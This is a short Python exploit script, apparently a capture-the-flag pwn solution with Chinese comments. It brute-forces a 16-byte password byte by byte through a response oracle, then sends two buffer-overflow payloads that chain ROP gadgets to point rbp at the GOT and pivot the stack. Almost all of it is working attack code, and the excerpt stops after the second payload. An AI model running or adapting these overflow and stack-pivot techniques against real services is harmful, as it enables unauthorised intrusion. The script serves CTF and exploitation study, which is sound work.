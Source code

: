```python
recv('token:')
sendline('GgT-xxx')

def get_password():
    password_len = 16
    password = b''
    for i in range(password_len):
        flag = False
        for j in range(256):
            password_try = password + bytes([j])
            recv('>', False)
            sendline('designer')
            recv('>', False)
            p.send(password_try)

            res = recv('!', False)
            if 'Wrong Password' not in res:
                log.info(f"Found byte {i}: {bytes([j])} (char: {j})")
                password += bytes([j])
                flag = True
                break
        if not flag:
            log.error(f"Failed to find byte {i}")
            exit(1)
    
    log.success(f"Found password: {password}")
    return password

def send_payload(payload):
    recv('>')
    sendline('-1')
    recv('>')
    p.send(payload)

get_password()

# 第一个 payload：把 rbp 整到 GOT 上去
payload = b'\x00' * 120
payload += 0x40150d.to_bytes(8, 'little')  # pop %rbp; ret
payload += 0x404d00.to_bytes(8, 'little')  # new rbp -> GOT
payload += 0x40130a.to_bytes(8, 'little')
send_payload(payload)
log.info("First payload sent.")

get_password()

# 第二个 payload：设置 rsp，让函数在我们新的栈上跑一遍
payload = b'\x00' * 120
# 0x404d08
payload += 0x40150d.to_bytes(8, 'little')  # pop %rbp; ret
# 0x404d10
payload += 0x404d20.to_bytes(8, 'little')  # 接下来这个值要给 rsp，要让 rsp 正好还在我们的 payload 区域
# 0x404d18
payload += 0x4014ea.to_bytes(8, 'little')  # rsp = rbp; pop rbp; ret
# 0x404d20
payload += 0x404b00.to_bytes(8, 'little')
# 0x404d28
payload += 0x40130a.to_bytes(8, 'little')
# 最终结果：rsp = 0x404d30, rbp = 0x404b00
send_payload(payload)
log.info("Second payload sent.")

get_password()
```